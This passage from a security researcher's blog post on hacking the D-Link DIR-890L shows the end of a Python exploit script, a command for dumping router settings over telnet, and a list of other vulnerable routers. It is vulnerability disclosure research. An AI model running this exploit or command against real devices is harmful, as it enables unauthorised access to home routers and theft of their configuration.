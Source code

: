     req = urllib2.Request(url, None, headers)
    try:
        urllib2.urlopen(req)
        raise Exception("Unexpected response")
    except httplib.BadStatusLine:
        print "Exploit sent, try telnetting to %s:%s!" % (ip, port)
        print "To dump all system settings, run (no quotes): 'xmldbc -d /var/config.xml; cat /var/config.xml'"
        sys.exit(0)
    except Exception:
        print "Received an unexpected response from the server; exploit probably failed. :("

I’ve tested both the v1.00 and v1.03 firmware (v1.03 being the latest at the time of this writing), and both are vulnerable. But, as is true with most embedded vulnerabilities, this code has snuck its way into other devices as well.

Analyzing “all the firmwares” is tedious, so I handed this bug over to our Centrifuge team at [work](http://tacnetsol.com), who have a great automated analysis system for this sort of thing. Centrifuge found that at least the following devices are also vulnerable:

-   DAP-1522 revB
-   DAP-1650 revB
-   DIR-880L
-   DIR-865L
-   DIR-860L revA
-   DIR-860L revB
-   DIR-815 revB
-   DIR-300 revB
-   DIR-600 revB
-   DIR-645
-   TEW-751DR
-   TEW-733GR

AFAIK, there is no way to disable HNAP on any of these devices.

UPDATE:

Looks like this same bug was [found](http://securityadvisories.dlink.com/security/publication.aspx?name=SAP10051) earlier this year by Samuel Huntly, but only reported and patched for the DIR-645. The patch looks pretty shitty though, so expect a follow-up post soon.

Bookmark the [permalink](http://www.devttys0.com/2015/04/hacking-the-d-link-dir-890l/ "Permalink to Hacking the D-Link DIR-890L").

[« Reversing Belkin’s WPS Pin Algorithm](http://www.devttys0.com/2015/04/reversing-belkins-wps-pin-algorithm/)

[What the Ridiculous Fuck, D-Link?! »](http://www.devttys0.com/2015/04/what-the-ridiculous-fuck-d-link/)

32. Pingback: [D-Link DAP-1520 hacking: Part 1 | «WatchMySys» Blog](http://watchmysys.com/blog/2016/03/d-link-dap-1520-hacking-part-1/) 
    [http://www.devttys0.com/2015/04/hacking-the-d-link-dir-890l/](http://www.devttys0.com/2015/04/hacking-the-d-link-dir-890l/)
